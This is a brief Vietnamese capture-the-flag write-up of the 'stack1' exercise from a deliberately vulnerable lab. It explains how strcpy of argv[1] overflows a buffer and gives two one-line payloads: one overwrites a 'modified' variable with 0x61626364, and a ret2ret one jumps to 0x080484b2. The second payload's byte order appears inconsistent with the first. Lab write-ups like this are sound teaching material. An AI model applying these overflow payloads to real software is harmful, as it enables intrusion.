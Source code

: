 # Stack 1

## Description

![description](description.png)

Khi chạy chương trình yêu cầu truyền vào 1 argument. Chúng ta cùng xem thử qua hàm main nhé.
![main](main.png)

![main2](main2.png)

bỏ qua phần check arg vào main, chúng ta quan tâm từ main+35. Nhìn qua thì nó tương tự bài stack0, chúng ta có thể ghi đè modified, thay đổi EIP. Và modified yêu cầu một giá trị cụ thể chứ ko chỉ là khác 0 như bài trước, đó là: `0x61626364`. Và một điểm khác là modified nhận giá trị qua hàm strcpy từ arg[1] vào buf thay vì hàm gets.

## Solution

### Buffer overflow

`payload: ./stack1 $(python -c 'print "a"*64+"\x64\x63\x62\x61"')`

### Ret2ret 

cho EIP jump về  `0x080484b2`. phần padding vẫn là 80byte giống stack0.

`payload: ./stack1 $(python -c 'print "a"*80 + "\x08\x04\x84\xb2"')`

![ret2ret](ret2ret.png)
